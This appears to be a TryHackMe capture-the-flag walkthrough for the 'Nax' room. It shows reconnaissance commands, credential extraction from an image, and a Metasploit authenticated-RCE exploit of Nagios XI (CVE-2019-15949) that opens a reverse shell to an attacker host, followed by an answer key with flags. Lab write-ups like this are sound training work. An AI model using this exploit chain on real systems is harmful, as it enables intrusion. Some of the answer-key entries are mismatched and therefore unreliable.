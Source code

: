 # Solution

## URL
- [Nax](https://tryhackme.com/room/nax)

## Steps

### Enumerate
1. Running a full port scan with rustscan and doing service detection with NMAP: `rustscan -a 10.10.196.39 -r 1-65535 -- -A | tee port-scan.txt`.
2. A website is running on port 80, enumerating directories/files: `ffuf -u http://10.10.196.39/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -mc 200,301,302,403 -fs 1332 -v | tee ffuf-dir-scan.txt`.
3. This did not return much useful data, checking the source code of index page returned a comment. Using that as a directory name gets us the login page of Nagios XI `/nagiosxi`.
4. Let's fuzz that: `ffuf -u http://10.10.196.39/nagiosxi/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -mc 200,301,302,403 -fs 27 -v`
5. The elements in the index page `/` might be references to ASCII codes, changing the ASCII codes to text gives use: `47 80 73 51 84 46 80 78 103` => `/PI3T.PNg`.
6. Downloading that file: `wget http://10.10.196.39/PI3T.PNg`.
7. Checking exif data using exiftool `exiftool PI3T.PNg`, gives us the name of the creator `Piet Mondrian`.
8. Researching him we stumble across piet programming language, we used gimp to export out png file to ppm file in raw format.
9. Next run these commands:
    ```
    git clone https://github.com/gleitz/npiet.git
    cd npiet
    ./configure
    make
    ./npiet ../PI3T.ppm
    ```
10. This will give us the credentials: `nagiosadmin:n3p3UQ&9BjLp4$7uhWdY`.
11. Let's try to login with this in the login page we found.

### Initial access using CVE
1. We successfully logged in, at the bottom right we can see the version number is 5.5.6.
2. Searching for all CVEs for Nagios XI for this version, we get `CVE-2019-15949`.
3. Start metasploit with `msfconnsole` and `search CVE-2019-15949`.
4. Now to exploit run these:
    ```
    exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce
    set RHOSTS 10.10.196.39
    set PASSWORD n3p3UQ&9BjLp4$7uhWdY
    set LHOST 10.17.47.107
    exploit
    ```
5. Once we get a meterpreter session, drop into system shell using `shell`.
6. Check user: `whoami`, we are `root`. Great!
7. Find `user.txt`: `find / -name "user.txt" -type f 2> /dev/null`. Found it in: `/home/galand/user.txt`.
8. Reading that we get the first flag: `THM{84b17add1d72a9f2e99c33bc568ae0f1}`
9. Find `root.txt`: `find / -name "root.txt" -type f 2> /dev/null`. FOund it in `/root/root.txt`.
10. Reading that we get the second flag: `THM{c89b2e39c83067503a6508b21ed6e962}`.

### Task 1
#### What hidden file did you find?
1. The answer is `PI3T.PNg`.

#### Who is the creator of the file?
1. The answer is `Piet Mondrian`.

#### What is the username you found?
1. The answer is `Piet Mondrian`.

#### What is the username you found?
1. The answer is `n3p3UQ&9BjLp4$7uhWdY`.

#### What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000
1. The answer is `CVE-2019-15949`.

#### After Metasploit has started, let's search for our target exploit using the command 'search applicationame'. What is the full path (starting with exploit) for the exploitation module?
1. The answer is `exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce`.

#### Compromise the machine and locate user.txt
1. The answer is `THM{84b17add1d72a9f2e99c33bc568ae0f1}`.

#### Locate root.txt
1. The answer is `THM{c89b2e39c83067503a6508b21ed6e962}`.